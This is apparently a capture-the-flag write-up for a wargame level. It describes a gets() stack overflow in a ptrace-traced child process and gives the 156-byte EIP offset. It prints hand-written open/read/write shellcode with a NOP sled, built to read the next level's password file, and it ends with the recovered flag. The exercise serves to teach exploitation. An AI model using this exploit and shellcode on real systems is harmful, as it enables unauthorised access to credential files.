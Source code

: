 # Level4
There is a fork in the program, if the program is the child, it calls gets on a buffer. So we can overflow and write a shellcode on the stack.

We found out that the old eip of the child is at 156 bytes from the beginnig of the buffer.

So now we can write a shellcode in the env.
```bash
./level04 <<< `python -c 'print("a" * 156 + "\x01\x01\xff\xff")'`
```
The child is trace with ptrace, and the parent doesn't allow the child to use an exec call.
So the next problem is that we can not use our last shellcode...
Then we re-write a new shellcode from asm, which will open a file, read it and write its content.

```bash
 export SHELLCODE=`python -c 'print("\x90" * 0xffff + "\xeb\x35\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x05\x5b\xcd\x80\x89\xc6\x89\xd9\x31\xd2\x31\xc0\x89\xf3\xb0\x03\x83\xec\x29\x8d\x0c\x24\xb2\x29\xcd\x80\xb0\x04\x31\xdb\xb3\x01\xb2\x29\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xc6\xff\xff\xff\x2f\x68\x6f\x6d\x65\x2f\x75\x73\x65\x72\x73\x2f\x6c\x65\x76\x65\x6c\x30\x35\x2f\x2e\x70\x61\x73\x73"
)'`
```

Flag is **3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN**

